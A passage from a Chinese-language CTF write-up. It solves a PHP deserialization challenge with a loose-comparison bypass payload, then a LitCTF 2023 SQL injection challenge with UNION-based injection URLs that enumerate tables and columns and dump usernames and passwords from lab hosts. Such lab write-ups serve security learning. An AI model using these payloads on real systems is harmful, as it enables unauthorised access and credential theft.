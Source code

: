 ```php
}

?>
```
这里要满足反序列化的弱比较
但是注意进行序列化的时候不是用username  = "this_is_secret"和password  = "this_is_not_known_to_you"。因为第五行说了已经修改过内容了，所以如下构造是错的
```php
<?php
$info=array("username"  => "this_is_secret","password " => "this_is_not_known_to_you");
$info=serialize($info);
var_dump($info);
?>
```
![alt text](image-128.png)
在这里正确的方法是
```php
<?php
$info = array(
	'username'=>true,
	'password'=>true
);
echo  serialize($info);

```
![alt text](image-129.png)
所以构造payload:
```
http://node5.anna.nssctf.cn:27731/?info=a:2:{s:8:"username";i:0;s:8:"password";i:0;}
```
![alt text](image-130.png)

## [LitCTF 2023]这是什么？SQL ！注一下 ！
>url:https://www.nssctf.cn/problem/3868
>知识点：布尔盲注

![alt text](image-142.png)
根据提示判断闭合方式为))))))
然后查询回显位数
![alt text](image-145.png)
![alt text](image-146.png)
回显两位
![alt text](image-147.png)
上图显示两位都有数据
构造payload查看表名
```
http://node5.anna.nssctf.cn:24324/?id=-1)))))) union select 1,group_concat(table_name) from information_schema.tables where table_schema=database()--+
```
![alt text](image-148.png)
只有一个users表，然后查询表中所有列名，构造payload：
```
http://node5.anna.nssctf.cn:24324/?id=1)))))) union select 1,group_concat(column_name) from information_schema.columns where table_schema=database() and table_name="users"--+
```
![alt text](image-149.png)
有三列
然后
```
-1)))))) union select username,password from users--+
```